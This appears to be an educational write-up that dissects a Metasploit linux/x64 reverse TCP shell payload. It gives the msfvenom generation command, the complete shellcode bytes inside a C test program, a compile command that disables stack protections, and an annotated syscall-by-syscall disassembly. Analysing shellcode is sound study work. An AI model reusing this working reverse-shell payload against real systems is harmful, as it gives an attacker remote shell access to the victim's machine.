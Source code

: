 # Reverse Tcp Shell
I created the payload like this:
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f c
```
LHOST and LPORT specify the IP and port to connect to

## Testmodule
As I did for the first analysed payload I placed the shellcode into a C programm:
```
unsigned char buf[] =
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
"\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48\x89\xe6\x6a\x10"
"\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
"\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";
```

And compiled it like this:
```
gcc -m64 -z execstack -fno-stack-protector Test.c -o Test -no-pie
```

## Analysis

1. Create a new socket by socket(AF_INET, SOCK_STREAM, 0)

    ```
    push 0x29   ; SYS_SOCKET
    pop rax
    cdq         ; CLEAR RDX 
    push   0x2  ; AF_INET
    pop    rdi
    push   0x1  ; SOCK_STREAM
    pop    rsi
    syscall  
    xchg   rdi,rax ; Place returned fd in rdi
    ```

2. Create struct_sockaddr

    ```
    movabs rcx,0x100007f5c110002 ; Struct with ip, port and sin_family 
    push   rcx
    mov    rsi,rsp ; rsi now points to the struct
    push   0x10 # Size of struct
    pop    rdx
    push 0x2a ; SYS_CONNECT
    pop rax
    syscall
    ```

3. dup2 loop

    ```
    push   0x3 
    pop    rsi
    dec    rsi
    push   0x21 ; dup2
    pop    rax
    syscall

    jne 0x7fffffffdce7  ; Make sure to duplicate everything
    dec    rsi
    push   0x21 ; dup2
    pop    rax
    syscall
    jne    0x7fffffffdce7
    ```


4. Execve syscall .

    ```
    push   0x3b # SYS_EXECVE
    pop    rax
    cdq
    movabs rbx,0x68732f6e69622f
    push   rbx
    mov    rdi,rsp
    push   rdx
    push   rdi
    mov    rsi,rsp
    syscall ; execve("/bin/sh", "/bin/sh", 0);
    ```


